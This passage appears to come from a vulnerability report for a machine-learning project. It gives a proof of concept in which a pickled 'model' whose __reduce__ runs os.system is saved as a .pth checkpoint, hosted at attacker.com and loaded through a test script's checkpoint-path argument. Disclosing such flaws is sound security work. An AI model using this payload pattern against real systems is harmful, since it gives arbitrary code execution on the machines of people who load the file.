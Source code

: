             class MaliciousModel(object):
                def __reduce__(self):
                    return (os.system, ('touch /tmp/pwned',)) # Example: create a file /tmp/pwned, can be replaced with more harmful commands

            model = MaliciousModel()
            torch.save(model, 'malicious_model.pth')
            ```
        - Run the malicious Python script: `python malicious_payload.py`. This will create a malicious pickle file named `malicious_model.pth`.
        - Host `malicious_model.pth` on a web server accessible to the victim machine (e.g., `https://attacker.com/malicious_model.pth`).

    2. **Action (Victim):**
        - Modify one of the test scripts (e.g., `scripts/test_ntu_rgbd.sh`) to use the malicious checkpoint by changing the `--load_ckpt_path` argument to point to the attacker's hosted file:
        ```bash
        python -m classification.run \
          --gpus 0 \
          --split test \
          --dset ntu-rgbd \
          --load_ckpt_path https://attacker.com/malicious_model.pth \  # Malicious path
          --modalities rgb
        ```
        - Run the modified script: `sh scripts/test_ntu_rgbd.sh`.

    3. **Verification:**
        - After running the script, check if the file `/tmp/pwned` exists on the victim's system. If it exists, it confirms that the arbitrary code execution was successful due to the pickle deserialization vulnerability.